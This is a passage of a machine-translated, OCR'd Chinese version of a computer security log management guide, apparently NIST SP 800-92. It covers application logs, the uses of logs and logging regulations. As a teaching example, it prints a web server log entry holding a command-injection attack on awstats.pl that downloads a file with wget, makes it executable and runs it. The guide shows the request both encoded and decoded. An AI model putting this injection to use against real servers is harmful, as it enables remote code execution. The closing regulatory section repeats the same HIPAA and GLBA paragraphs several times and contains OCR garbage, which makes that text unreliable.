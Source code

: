 一些應用程序生成自己的日誌文件，而其他應用程序則使用安裝它們的操作系統的日誌記錄功能。應用程序在它們記錄的信息類型方面有很大差異。下面列出了一些最常記錄的信息類型以及每種信息的潛在好處：9 � 客戶端請求和服務器響應，這對於重建事件序列和確定其明顯結果非常有幫助。如果應用程序記錄成功的用戶身份驗證，通常可以確定哪個用戶發出了每個請求。一些應用程序可以執行非常詳細的日誌記錄，例如電子郵件服務器記錄每封電子郵件的發件人、收件人、主題名稱和附件名稱；Web 服務器記錄每個請求的 URL 和服務器提供的響應類型；以及記錄每個用戶訪問了哪些財務記錄的業務應用程序。此信息可用於識別或調查事件，並出於合規性和審計目的監控應用程序使用情況。� 帳戶信息，例如成功和失敗的身份驗證嘗試、帳戶更改（例如，帳戶創建和刪除、帳戶權限分配）以及權限的使用。除了識別暴力密碼猜測和權限升級等安全事件外，它還可用於識別誰使用了該應用程序以及每個人何時使用它。� 使用信息，例如特定時間段（例如，分鐘、小時）內發生的交易數量和交易大小（例如，電子郵件消息大小、文件傳輸大小）。這對於某些類型的安全監控（例如。例如，電子郵件活動增加十倍可能表明存在新的電子郵件惡意軟件威脅；異常大的出站電子郵件可能表明信息發布不當）。� 重要的操作行為，例如應用程序啟動和關閉、應用程序故障和重大應用程序配置更改。這可用於識別安全威脅和操作故障。其中大部分信息，尤其是未通過未加密網絡通信使用的應用程序，只能由應用程序記錄，這使得應用程序日誌對於與應用程序相關的安全事件、審計和合規性工作特別有價值。然而，這些日誌通常採用專有格式，這使得它們更難使用，並且它們包含的數據通常高度依賴於上下文，需要更多資源來審查其內容。圖 2-3 包含來自 Web 服務器日誌的示例日誌條目，以及對條目中記錄的信息的解釋。

8 一個應用程序的單一實施也可以被多個組織使用。例如，上級組織可以託管其成員機構都使用的應用程序。機構使用應用程序的日誌很可能由上級組織管理，但每個機構也可能有能力查看其用戶的日誌信息。9 組織應考慮制定一項政策，為為其開發的自定義應用程序定義日誌記錄要求。這樣的策略有助於確保應用程序將記錄必要的信息以支持應用程序的安全性和對其使用的審計。2-5 計算機安全日誌管理指南 172.30.128.27 - - [14/Oct/2005:05:41:18 -0500] "GET /awstats/awstats.pl?config dir=|echo;echo%20YYY; cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx% 20nikons%3b%2e%2fnikons;echo%20YYY;echo| HTTP/1.1" 302 494 172.30.128.27 發起請求的主機IP地址
表示信息不可用（此服務器未配置為在第二個字段中放置任何信息）
為 HTTP 身份驗證提供的用戶 ID；在這種情況下，未執行任何身份驗證 [14/Oct/2005:05:41:18 -0500] Web 服務器完成處理請求的日期和時間 GET HTTP 方法 /awstats/awstats.pl URL in the request config dir= |迴聲；迴聲%20YYY；cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%20nikons%3b%2e%2fnikons；迴聲%20YYY；迴聲| 請求的參數。每個 % 後跟兩個十六進製字符是 ASCII 字符的十六進制編碼。例如十六進制的20相當於十進制的32，ASCII字符32是一個空格；因此，%20 相當於一個空格。上面日誌條目的 ASCII 等效項如下所示。10 config dir=|echo;echo YYY;cd /tmp;wget 192.168.1.214/nikons;chmod +x nikons;/.nikons; 迴聲 YYY;迴聲| HTTP/1。1 用於發出請求的協議和協議版本 302 響應的狀態代碼；在 HTTP 協議標準中，代碼 302 對應於“found” 494 響應的大小（以字節為單位）圖 2-3。Web 服務器日誌條目示例 2.1.4

日誌的用途 第 2.1.1 節到第 2.1.3 節中描述的日誌類別通常包含不同類型的信息。因此，一些日誌通常比其他日誌更有可能記錄有助於不同情況的信息，例如檢測攻擊、欺詐和不當使用。對於 10 此日誌條目顯示惡意活動。攻擊試圖將一個名為“nikons”的文件從 IP 地址為 192.168.1.214 的主機傳輸到 Web 服務器，將文件設置為可執行文件，然後運行它，最有可能使用 Web 服務器的權限。2-6 計算機安全日誌管理指南 在每種情況下，某些日誌通常最有可能包含有關相關活動的詳細信息。其他日誌通常包含不太詳細的信息，並且通常只有助於關聯主要日誌類型中記錄的事件。例如，入侵檢測系統可以記錄從外部主機向服務器發出的惡意命令；這將是攻擊信息的主要來源。然後，事件處理程序可以查看防火牆日誌以查找來自同一源 IP 地址的其他連接嘗試；這將是攻擊信息的次要來源。使用日誌的管理員還應該注意每個日誌源的可信度。未適當保護的日誌源（包括不安全的傳輸機制）更容易受到日誌配置更改和日誌更改的影響。當然，管理員應該特別注意來自被攻擊成功的主機的日誌的準確性；檢查其他日誌通常也是謹慎的做法。2.2 日誌管理的需要 日誌管理可以使組織在很多方面受益。它有助於確保在適當的時間段內足夠詳細地存儲計算機安全記錄。例行日誌審查和分析有利於在安全事件、策略違規、欺詐活動和操作問題發生後立即識別它們，並有助於提供有助於解決此類問題的信息。日誌還可用於執行審計和取證分析、支持組織的內部調查、建立基線以及識別操作趨勢和長期問題。除了日誌管理的固有優勢外，許多法律法規進一步強制組織存儲和審查某些日誌。以下是有助於定義組織對日誌管理需求的關鍵法規、標準和指南的列表： 2002 年聯邦信息安全管理法案 (FISMA)。FISMA 強調每個聯邦機構都需要製定、記錄和實施組織範圍的計劃，為支持其運營和資產的信息系統提供信息安全。NIST SP 800-53，聯邦信息系統的推薦安全控制，是為支持 FISMA 而開發的。11 NIST SP 800-53 是聯邦機構推薦安全控制的主要來源。它描述了與日誌管理相關的幾種控制，包括審計記錄的生成、審查、保護和保留，以及因審計失敗而採取的行動。� Gramm-Leach-Bliley 法案 (GLBA)。12 GLBA 要求金融機構保護其客戶的信息免受安全威脅。日誌管理有助於識別可能的安全違規並有效解決它們。� 1996 年健康保險流通與責任法案 (HIPAA)。HIPAA 包括某些健康信息的安全標準。NIST SP 800-66，實施健康保險流通與責任法案 (HIPAA) 安全規則的介紹性資源指南，列出了與 HIPAA 相關的日誌管理需求。 13 例如，NIST SP 800-66 的第 4.1 節描述了需要執行定期審查審計日誌和訪問報告。還，12 GLBA 要求金融機構保護其客戶的信息免受安全威脅。日誌管理有助於識別可能的安全違規並有效解決它們。� 1996 年健康保險流通與責任法案 (HIPAA)。HIPAA 包括某些健康信息的安全標準。NIST SP 800-66，實施健康保險流通與責任法案 (HIPAA) 安全規則的介紹性資源指南，列出了與 HIPAA 相關的日誌管理需求。 13 例如，NIST SP 800-66 的第 4.1 節描述了需要執行定期審查審計日誌和訪問報告。還，12 GLBA 要求金融機構保護其客戶的信息免受安全威脅。日誌管理有助於識別可能的安全違規並有效解決它們。� 1996 年健康保險流通與責任法案 (HIPAA)。HIPAA 包括某些健康信息的安全標準。NIST SP 800-66，實施健康保險流通與責任法案 (HIPAA) 安全規則的介紹性資源指南，列出了與 HIPAA 相關的日誌管理需求。 13 例如，NIST SP 800-66 的第 4.1 節描述了需要執行定期審查審計日誌和訪問報告。還，� 1996 年健康保險流通與責任法案 (HIPAA)。HIPAA 包括某些健康信息的安全標準。NIST SP 800-66，實施健康保險流通與責任法案 (HIPAA) 安全規則的介紹性資源指南，列出了與 HIPAA 相關的日誌管理需求。 13 例如，NIST SP 800-66 的第 4.1 節描述了需要執行定期審查審計日誌和訪問報告。還，� 1996 年健康保險流通與責任法案 (HIPAA)。HIPAA 包括某些健康信息的安全標準。NIST SP 800-66，實施健康保險流通與責任法案 (HIPAA) 安全規則的介紹性資源指南，列出了與 HIPAA 相關的日誌管理需求。 13 例如，NIST SP 800-66 的第 4.1 節描述了需要執行定期審查審計日誌和訪問報告。還，NIST SP 800-66 的第 1 部分描述了定期審查審計日誌和訪問報告的必要性。還，NIST SP 800-66 的第 1 部分描述了定期審查審計日誌和訪問報告的必要性。還，
